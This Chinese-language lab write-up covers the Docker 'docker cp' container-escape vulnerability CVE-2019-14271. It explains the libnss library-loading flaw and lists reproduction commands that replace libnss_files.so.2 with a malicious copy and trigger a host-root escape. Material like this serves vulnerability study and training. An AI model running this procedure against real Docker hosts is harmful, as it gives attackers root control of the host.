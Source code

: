 # Docker copy漏洞导致容器逃逸（CVE-2019-14271）

## 场景介绍

`docker cp`命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制`/var/logs`，语法是`docker cp container_name:/var/logs /some/host/path`。

在复制的过程中Docker使用了一个名为`docker-tar`的帮助进程。`docker-tar`是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括`net`和`os/user`，都是docker-tar使用的，而且在运行时会加载多个`libnss_*.so`库。一般来说，库是从`host`文件系统加载的，但因为`docker-tar`chroot到了容器，因此会从容器文件系统中加载库。也就是说`docker-tar`会加载和执行来源于容器或由容器控制的代码。因此，通过注入代码到`docker-tar`，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件:

- 容器运行含有恶意`libnss_*.so`库的镜像
- 容器中含有被攻击者替换的`libnss_*.so`库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

## 环境搭建

漏洞环境准备:

```bash
./metarget cnv install cve-2019-14271
```

## 漏洞复现

新建一个容器:

```
sudo docker run -itd --name=14271 ubuntu bash
```

将漏洞利用文件拷贝至容器内:

```
sudo docker cp exp/ 14271:/
sudo docker exec -it 14271 bash #进入容器
ls /exp
breakout  libnss_files.so.2  original_libnss_files.so.2
```

删除容器内原来的so库:

```
rm /lib/x86_64-linux-gnu/libnss_files.so.2
```

然后替换为修改后的恶意so文件:

```
mv libnss_files.so.2 /lib/x86_64-linux-gnu/
```

替换后退出容器，在宿主机上执行cp命令`sudo docker cp 14271:/logs ./`即可完成逃逸（若不成功，可查看breakout文件是否有执行权限）。

进入容器内部，可发现根目录下存在host_fs目录挂载了宿主机的文件系统，成功逃逸。

## 参考文献

1. https://xz.aliyun.com/t/6806
2. https://zhuanlan.zhihu.com/p/93104462